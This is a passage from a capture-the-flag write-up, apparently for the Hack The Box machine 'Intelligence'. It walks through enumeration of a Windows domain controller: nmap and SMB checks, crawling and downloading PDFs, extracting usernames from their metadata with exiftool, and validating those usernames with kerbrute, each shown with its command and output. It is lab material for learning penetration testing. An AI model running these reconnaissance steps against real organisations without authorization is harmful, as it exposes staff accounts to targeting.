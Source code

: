 ```bash
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h03m54s, deviation: 0s, median: 7h03m53s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-07-19T21:03:42
|_  start_date: N/A
```

* `Enum4linux` doesn't get anything: `enum4linux -a 10.10.10.248`.
* SMB anonymous login allowed but no share: `smbclient -L 10.10.10.248`.

Found 2 pdf files from web server
```bash
❯ echo 'http://intelligence.htb/' | hakrawler
http://intelligence.htb/documents/2020-01-01-upload.pdf
http://intelligence.htb/documents/2020-12-15-upload.pdf
```

Download both pdfs
```bash
❯ echo 'http://intelligence.htb/' | hakrawler | grep pdf | xargs wget -q
❯ ls -l
total 56
-rw-r--r-- 1 x00tex x00tex 26835 Apr  1  2021 2020-01-01-upload.pdf
-rw-r--r-- 1 x00tex x00tex 27242 Apr  1  2021 2020-12-15-upload.pdf
```

Got some usernames from pdf's metadata with `exiftool`
```bash
❯ exiftool * -Creator
======== 2020-01-01-upload.pdf
Creator                         : William.Lee
======== 2020-12-15-upload.pdf
Creator                         : Jose.Williams
    2 image files read
```

Using kerbrute to verify valid usernames, and both users are valid.
```bash
❯ kerbrute userenum -d intelligence.htb --dc 10.10.10.248 users.txt

# ... [snip] ...

2021/11/27 09:04:06 >  Using KDC(s):
2021/11/27 09:04:06 >  	10.10.10.248:88

2021/11/27 09:04:07 >  [+] VALID USERNAME:	 Jose.Williams@intelligence.htb
2021/11/27 09:04:07 >  [+] VALID USERNAME:	 William.Lee@intelligence.htb
2021/11/27 09:04:07 >  Done! Tested 2 usernames (2 valid) in 0.661 seconds
```
